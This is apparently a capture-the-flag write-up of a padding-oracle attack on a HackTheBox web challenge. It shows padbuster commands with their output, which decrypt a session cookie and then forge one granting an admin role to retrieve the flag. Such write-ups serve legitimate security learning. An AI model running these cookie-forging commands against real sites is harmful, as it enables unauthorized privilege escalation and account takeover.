```yaml
---
title:  "Oracle Padding"
date:   2021-08-05 21:15:00 +0000
categories: [techniques]
tags: [burp, web exploitation]
---
```



STEP 1
======
```
padbuster http://docker.hackthebox.eu:37742 zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0
```


`*** Response Analysis Complete ***`

`The following response signatures were returned:`


`ID# Freq Status Length Location`
    
`1 256 302 0 profile.php`


STEP 2
======
```
padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0
```

`*** Finished ***`

`[+] Decrypted value (ASCII): {"user":"bdmin","role":"user"}`

`[+] Decrypted value (HEX): 7B2275736572223A2262646D696E222C22726F6C65223A2275736572227D0202`

`[+] Decrypted value (Base64): eyJ1c2VyIjoiYmRtaW4iLCJyb2xlIjoidXNlciJ9AgI=`


STEP 3
======
```
padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"
```

`*** Finished ***`

`[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D`


STEP 4
======
We add the newly made encrypted value of "role=admin" to the cookies and we find the flag.


Before
------
![img-description](/images/Oracle-Padding-1.png)
_BEFORE - encrypted value of "role=admin" to the cookies_


After
-----
![img-description](/images/Oracle-Padding-2.png)
_AFTER - encrypted value of "role=admin" to the cookies_



